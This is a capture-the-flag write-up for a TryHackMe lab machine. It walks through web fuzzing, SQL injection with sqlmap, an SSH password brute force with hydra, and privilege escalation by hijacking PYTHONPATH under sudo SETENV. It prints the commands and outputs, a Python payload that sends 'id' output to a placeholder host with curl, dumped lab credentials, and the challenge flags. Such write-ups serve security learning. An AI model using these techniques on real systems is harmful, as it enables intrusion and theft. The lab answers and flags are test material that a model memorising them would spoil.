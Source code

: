 ```yaml
---
sticker: emoji//1f4d8
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8000 | http    |



# RECONNAISSANCE
---


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515122728.png)


As we can see, we got a login page, let's try to fuzz before trying any vuln such as sqli or xss:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.160.42:8000/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.160.42:8000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 338ms]
register                [Status: 200, Size: 964, Words: 51, Lines: 27, Duration: 886ms]
logout                  [Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 190ms]
```

Seems like nothing important can be found, let's proceed to the login page then.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515123053.png)

A good approach is to understand the register process, as we can see, we got to enter the email `id`, this seems weird, let's submit the request to our proxy:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515123302.png)

I noticed that at the login page, if we use:

```
_
```

We get status code `500`, from a previous machine, I exploited this using a python server to perform:

```python
__import__('os').system('curl http://IP:8000?pwned=$(id|base64)')
```


This time I had no luck, let's proceed to testing `SQLI` and `XSS` then:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515124333.png)

If we use that, we get:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515124345.png)


Surprisingly, `SQLI` works, let's proceed to exploitation then.


# EXPLOITATION
---

Knowing that the `username` parameter is vulnerable, let's save the request to a file and use `sqlmap` to check if we can get anything valuable:


```
sqlmap -r "$(pwd)/req.req" --dbs --dump

Database: website
Table: users
[2 entries]
+----+----------------------+----------------+----------+
| id | email                | password       | username |
+----+----------------------+----------------+----------+
| 1  | smokey@email.boop    | My_P@ssW0rd123 | smokey   |
| 2  | test@test.com;whoami | test           | test     |
+----+----------------------+----------------+----------+
```


There we go, we got credentials, let's go into ssh

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515125529.png)


We can begin privilege escalation.



# PRIVILEGE ESCALATION
---


To begin with, let's use `linpeas` so we can check any PE vector:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515133638.png)

As seen, we got another user named `hazel`, we can also find this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515133711.png)

This task runs as `smokey` so we cannot get a root shell with that, if we check inside of `hazel` home, we can find this:

```
smokey@ip-10-10-160-42:~$ ls -la /home/hazel/
total 32
drwxr-xr-x 3 root  root  4096 Mar  2  2022 .
drwxr-xr-x 5 root  root  4096 May 15 17:18 ..
lrwxrwxrwx 1 root  root     9 Dec  7  2021 .bash_history -> /dev/null
-rw-r--r-- 1 hazel hazel  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 hazel hazel 3771 Feb 25  2020 .bashrc
drwx------ 2 hazel hazel 4096 Dec  7  2021 .cache
-rw-r----- 1 root  hazel  497 Dec  7  2021 hasher.py
-rw-r--r-- 1 hazel hazel  807 Feb 25  2020 .profile
-rw-r----- 1 root  hazel   45 Mar  2  2022 user.txt
-rw------- 1 hazel hazel    0 Dec  7  2021 .viminfo
```

There's a file named `hasher.py`, seems like that could be our way into root, since we need `hazel` credentials and there seems to be no backup or anything that reveals us this user's password, let's try brute force:

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt IP ssh -t 4
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515135342.png)

After a while we get:

```
hazel:hazel
```

Seems like the user was the password, let's go into ssh with those credentials then:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515134533.png)

We can now read the user flag:

```
hazel@ip-10-10-160-42:~$ cat user.txt
THM{G0Od_OLd_SQL_1nj3ct10n_&_w3@k_p@sSw0rd$}
```

If we check our sudo privileges, we can notice this:

```bash
hazel@ip-10-10-160-42:~$ sudo -l
Matching Defaults entries for hazel on ip-10-10-160-42:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on ip-10-10-160-42:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py


hazel@ip-10-10-160-42:~$ ls -l hasher.py
-rw-r----- 1 root hazel 497 Dec  7  2021 hasher.py
```

Let's check the code for the script:

```python
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We cannot write on the file so we need to exploit it using the `SETENV` tag, this tag allows us to set environment variables on the sudo command line, if we are able to hijack the `PYTHONPATH` we will get a shell as root, The `PYTHONPATH`environment variable controls where Python looks for modules. When Python imports a module like `hashlib`, it searches for the module in the following order:

- Current directory
- Directories in the `PYTHONPATH` environment variable
- Standard library directories
- Site-packages directories

Understanding the flow, we can follow these steps to get a root as shell:

1. **Create a malicious `hashlib.py` module** that spawns a shell when imported:

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
```

2. **Execute the `hasher.py` script with sudo**, hijacking the `PYTHONPATH` environment variable to include `/tmp`. 

```python
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

If we do this, we can see:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515135207.png)

As seen, we get a root as shell and can now read `root.txt`:

```
root@ip-10-10-160-42:/home/hazel# cat /root/root.txt
THM{PytH0n_LiBr@RY_H1j@acKIn6}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250515135418.png)

